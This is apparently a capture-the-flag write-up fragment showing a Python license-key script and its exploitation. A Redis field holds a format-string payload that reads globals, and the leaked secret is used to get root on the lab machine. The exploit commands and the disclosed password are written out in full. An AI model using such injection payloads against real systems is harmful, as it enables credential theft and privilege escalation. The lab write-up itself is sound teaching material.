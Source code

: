 ```c
    license_key_encoded = license_key.encode()
    license_key_encrypted = f.encrypt(license_key_encoded)
    print("Encrypted license key (distribute to customer):")
    print("------------------------------------------------------")
    print(license_key_encrypted.decode())
    print("")
    with open("/root/license/keys", "a") as license_keys_file:
        license_keys_file.write(args.provision + ":" + license_key_encrypted.decode() + "\n")

#deprovision
if(args.deprovision):
    print("")
    print("License key deprovisioning coming soon")
    print("")
    sys.exit()

#check
if(args.check):
    print("")
    try:
        license_key_decrypted = f.decrypt(args.check.encode())
        print("License key valid! Decrypted value:")
        print("------------------------------------------------------")
        print(license_key_decrypted.decode())
    except:
        print("License key invalid")
    print("")

```

a person says that we have a "Python format string vulnerability"

https://podalirius.net/en/articles/python-format-string-vulnerabilities/

```c

cooper@format: redis-cli -s /run/redis/redis.sock

redis /var/run/redis/redis.sock> HMSET test first-name "{license.__init__.__globals__[secret_encoded]}" last-name test username test 
OK 
redis /var/run/redis/redis.sock> exit 
cooper@format:~$ sudo /usr/bin/license -p test 
Plaintext license key:
------------------------------------------------------ 
microblogtestAv*pd5bU$#)!Ef@un(7nX!vkA;)|AD:A}e/DET{tb'unCR4ckaBL3Pa$$w0rd'test Encrypted license key (distribute to customer): 
------------------------------------------------------ gAAAAABkZBqEo0E7jcv6FFBjGKoCi238MGNfhobcAFoqmkKXW0WJD0Sn1JuKMymKAEfTdV2Pz-zYlVuKrKgDZJp7ft-R4b8LxkeFwerwg85tIjvgDNK-PKp_H9x4WhR0zydRMPAKB77EsK6rJfsg9_JxOlne9U9mC9ed0onBt5UHNfsqUwH6wRI=
```

AND FINALLY WE CONNECT AS ROOT, AND CAT THE FLAG...
